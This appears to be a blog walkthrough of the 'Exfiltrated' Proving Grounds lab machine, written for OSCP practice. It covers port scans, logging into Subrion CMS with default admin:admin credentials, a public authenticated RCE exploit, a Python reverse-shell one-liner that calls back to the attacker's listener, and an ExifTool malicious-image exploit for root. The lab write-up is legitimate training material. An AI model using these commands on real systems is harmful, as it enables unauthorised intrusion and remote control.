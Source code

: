 ```yaml
---
title: Proving Grounds Exfiltrated Walkthrough
date: 2022-08-08 12:37:00 -500 
categories: [OSCP Prep,Proving Grounds]
tags: [oscp,linux]
---
```


# Exfiltrated Overview

Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|192.168.x.163|Exfiltrated|Linux|

# Enumeration

## Full Port Scan

```bash
$ nmap 192.168.109.163 -p- -oA Exfiltrated/nmap/full-port --open -Pn -vv
```

Which Resulted in:

|PORT|SERVICE|
|----|-------|
|22|ssh|
|80|http|

## Service Scan

```bash
$ nmap 192.168.109.163 -p 22,80 -sC -sV -oA Exfiltrated/nmap/service-scan -Pn
```

Which Resulted in:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|22|ssh|8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)|
|80|http|httpd 2.4.41 ((Ubuntu))|

# Website Enumeration

![Web Application](/assets/ProvingGrounds/Exfiltarted/site-landing-page.png "Site Page")

We see the server is running Subrion CMS 4.2.1 which has an [Authenticated RCE](https://www.exploit-db.com/exploits/49876). We can guess the default credentials admin:admin and see that we can now login to the application

![Valid Credentials](/assets/ProvingGrounds/Exfiltarted/valid-creds.png "Valid Credentials")

We can now use the exploit and supply it the credentials for the application

```bash
$ python3 exploit.py -u http://192.168.109.163/panel/ -l admin -p admin 
```

And we see that we have command execution on the box

![Command Execution](/assets/ProvingGrounds/Exfiltarted/command-exec.png "Confirmed Command Exec")

We can get a reverse shell by setting up a listener and running the following python command
```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.109",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

# Privilege Escalation
We inspect the content of /opt/image-exif.sh and see the following code.

![Script Content](/assets/ProvingGrounds/Exfiltarted/script-content.png "Script Content")

We see that the code is taking images from the site's upload directory and running exiftools on it. We can inject a malicious command into a jpg file attempt to get a reverse shell when exfitools executes. We can use the exploit located [here](https://www.exploit-db.com/exploits/50911) to generate our malicious jpg.

```bash
$ python3 exif-exploit.py -s 192.168.49.109 443
```

![Exploit](/assets/ProvingGrounds/Exfiltarted/exploit.png "Exploit")

We now upload our image to the site's upload directory, setup a listener and wait to catch the shell

![Root Shell](/assets/ProvingGrounds/Exfiltarted/root-shell.png "Root Shell")

And we now have a root shell

